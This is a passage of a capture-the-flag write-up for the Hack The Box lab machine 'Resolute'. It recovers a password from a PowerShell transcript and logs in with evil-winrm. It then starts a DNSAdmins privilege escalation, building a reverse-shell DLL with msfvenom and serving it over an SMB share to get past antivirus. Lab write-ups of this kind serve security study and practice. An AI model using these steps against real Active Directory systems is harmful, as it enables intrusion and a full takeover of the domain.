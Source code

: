 Hidden folder named `PSTranscripts` is present under `c:\`

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-pstranscript.png" | relative_url }})

We keep going down into it to find a Transcript Powershell.

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-hiddenfile.png" | relative_url }})

This file is the result of record part of a PowerShell session seem realized by Ryan user. We watching his password in a powershell command : **Serv3r4Admin4cc123**

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-openfile.png" | relative_url }})

Again we can now connect on the user ryan with evil-winrm tool.

```terminal
$ ruby evil-winrm.rb -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### DNSAdmin - ACLs abuse
***
Our user is member of `DNSAdmin group`. We can abuse his membership to escalate to Administrator rights and compromise the Active Directory domain through the loading of malicious DLL (payload reverse shell TCP) with SYSTEM privileges.

Reference - exploit DNSADMIN : <https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83>

```terminal
PS c:\Users\ryan\Documents> whoami /groups
```

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-groups.png" | relative_url }})

#### 1 - Creation of Malicious DLL

We create our malicious DLL with msfvenom by integrating a reverse shell TCP pointing to my IP address of my attacking machine and port 443.

```terminal
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.114.159 LPORT=443 -f dll > pwndnsadmin.dll
```

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-payload.png" | relative_url }})

#### 2 - Share Malicious DLL

We share our DLL from impact-server on our attacking machine. If we put manually the DLL through evil-winrm, he is delete directly. Maybe AV detect the payload ? So we bypass it to share from smbserver method.

```terminal
$ sudo impacket-smbserver share /home/pcw3r/Documents/writeups/htb/resolute/
```
